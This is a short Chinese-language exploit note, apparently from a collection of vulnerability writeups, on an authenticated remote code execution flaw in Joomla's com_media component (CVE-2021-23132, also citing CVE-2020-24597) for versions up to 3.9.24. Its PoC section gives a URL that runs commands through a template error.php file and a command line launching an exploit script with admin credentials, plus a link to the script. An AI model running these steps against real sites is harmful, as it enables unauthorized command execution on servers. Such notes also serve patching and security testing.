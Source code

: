 # Joomla com_media 后台 RCE (CVE-2021-23132)

影响版本：

Joomla core <=3.9.24

* CVE-2021-23132  com_media allowed paths that are not intended for image uploads to RCE.
* CVE-2020-24597  Directory traversal in com_media to RCE


步骤：

获取超级管理员权限，触发RCE。

**PoC：**

```
http://target/templates/protostar/error.php?cmd=ls
python3 cve-2021-23132.py -url http://192.168.72.140 -u admin -p 1234  -rce 1 -cmd ls
```

poc.py：https://github.com/HoangKien1020/CVE-2021-23132